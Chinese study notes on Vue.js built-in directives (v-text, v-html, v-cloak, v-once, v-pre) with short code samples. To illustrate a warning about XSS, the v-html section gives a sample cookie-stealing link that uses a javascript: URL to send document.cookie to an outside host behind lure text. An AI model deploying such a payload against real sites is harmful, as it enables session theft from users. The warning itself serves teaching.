 ## 内置指令

- v-text

```html
{name:"shit"}
<div v-text="name">I am shit</div>
<!-- shit -->
```

- v-html指令：

1. 作用：向指定节点中渲染包含html结构的内容。
2. 与插值语法的区别：
    1. v-html会替换掉节点中所有的内容，{{xx}}则不会。
    2. v-html可以识别html结构。
3. 严重注意：v-html有安全性问题
   1. 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
   2. 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上

```js
str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
```

- v-cloak指令（没有值）：

    1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
    2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题

```css
[v-cloak]{
    display:none;
}
```

```html
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
```

- v-once

```html
<div id="root">
    <!-- 初次动态渲染 -->
    <h2 v-once>{{number}}</h2>
    <h2>{{number}}</h2>
    <button @click="number++">点我number++</button>
</div>
```

- v-pre

    1. 跳过其所在节点的编译过程。
    2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
